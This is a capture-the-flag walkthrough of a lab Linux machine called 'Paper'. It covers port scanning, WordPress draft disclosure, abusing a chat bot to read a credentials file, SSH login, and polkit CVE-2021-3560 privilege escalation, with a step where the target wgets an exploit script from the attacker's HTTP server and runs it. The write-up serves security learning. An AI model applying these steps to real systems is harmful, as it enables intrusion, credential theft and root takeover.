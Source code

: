 ```yaml
---
title: Paper
date: 2025-05-05
tags: [easy, linux]
---
```


### Task 1 

How many TCP ports are open on the remote host?

``nmap -sS <target_ip>``

![alt text](image-p-1.png)

### Task 2

What is the domain for the Wordpress blog?

For answering this, we will attempt checking the information coming from the headers. 

``curl -I <target_ip>``

![alt text](image-p-2.png)

We can se that the server is leaking information from the backend systems from the X-Backend-Server header that contains the hostname of the target IP.

### Task 3

Which 2019 CVE is the wordpress version vulnerable to?

First, we need to identify the version of wordpress. First, we add the domain to the host file by ``sudo vim /etc/hosts``

![alt text](image-p-3.png)

Then, we use wpscan, the WordPress security scanner, to find the version and any vulnerabilities. 

![alt text](image-p-4.png)

We found both the readme.html file location, which usually contains the wordpress version but the specific version was already identified. With a quick google search about the specific version we find the 2019 CVE.

### Task 4

What is the secret registration URL of the employee chat system?

We first need to enumerate the directories using gobuster dir.

``gobuster dir -u http://office.paper/ -w <word_list>``

![alt text](image-p-5.png)

Navigating to the index.php page we see some kind of chat system.

![alt text](image-p-6.png)

Going back to the CVE we previously found, this version could allow an unauthenticated user to view private or draft posts. Navigating to the page we also find this interesting post by the user Prinsonmike. Seems that we can use this wordpress vulnerability to access his draft hoping we can find this secret url.

![alt text](image-p-8.png)

We navigate ``http://office.paper/?static=1`` and exploit the vulnerability and find the secret url.

![alt text](image-p-9.png)

<!--truncate--> 

### Task 5

What is the name of the bot running on the Rocket Chat instance?

We need to first add to the hosts file the subdomain ``chat.office.paper`` so the ip get resolved. 

Navigating to the secret url we found on the previous task we see the registration form.

![alt text](image-p-10.png)

We register, and the go to the general channel where we see the name of the bot.

![alt text](image-p-11.png)

### Task 6

Which recyclops commands allows listing files?

In the "How to use me?" guide of the bot we see all the commands, including the one listing files.

![alt text](image-p-12.png)

### Task 7

What is the file name of the file that contains the configuration information of hubot running on the chat system?

Hubot is a framework to build chat bots. We will try to chat with recyclops, using the commands available to extract the information about the name of the file. Running ``list`` we see that we are on user dwight home directory. 

![alt text](image-p-15.png)

We go back to the direcotry with ``list ../`` and then list the directory hubot ``list ../hubot``.

![alt text](image-p-16.png)

Looking through the listed files and google searching hubot documentation to cross-reference, we see some files that could be possible like ``.env`` and ``external-scripts``. We see their contents, first ``file ../hubot/external-scripts.json`` is empty and then ``file ../hubot/.env`` is the one containing the configuration.

![alt text](image-p-17.png)

### Task 8

What is the password obtained from that configuration information?

From the ``.env`` file we obtained from the previous question, we find the password. 

### Task 9

Which regular user with a home directory exists on Paper other than rocketchat?

From the previous tasks, we saw that we where on the regular user dwight directory.

### Task 10

Submit the flag located in the dwight user's home directory.

Previously, when we listed the home directory, by running ``list ../`` we came accross the ``user.txt`` file. We try to see the contents and get the user flag by ``file ../user.txt`` but we get access denied. We try to ssh to the target ip with the username dwight ``ssh dwight@<target_ip`` and the password we found in the ``.env`` file and we are in! We get the user flag by ``cat user.txt``.

### Task 11

What is the polkit version on the remote host?

We first run ``cat /etc/os-release`` to find which os we are on and we see that we are on CentOS. Then we can run ``rpm -qa | grep polkit
`` to find the version of polkit.

![alt text](image-p-18.png)
![alt text](image-p-19.png)

### Task 12

What is the 2021 CVE ID for the vulnerability in this version of polkit related to bypassing credential checks for D-Bus requests?

Looking up for CVEs affecting the version of the polkit found, we find CVE-2021-3560 for the vulnerability that allows an unprivileged user to create an administrative user without authentication by abusing D-Bus and timing. 

### Task 13

In our machine, we clone the exploit from github https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation. Then, we open a http server on port 8080 using ``python3 -m http.server 8080``. From the remote server, we use wget to get the exploit script ``wget http://<host_ip>:8080/poc.sh``. We then ``chmod +x poc.sh`` and run the exploit as many times as needed to get the timing right. We follow the exploit's instruction and get a root shell as the secnigma user. 

We navigate to the root directory and obtain the root flag by ``cat root.txt``

![alt text](image-p-20.png)


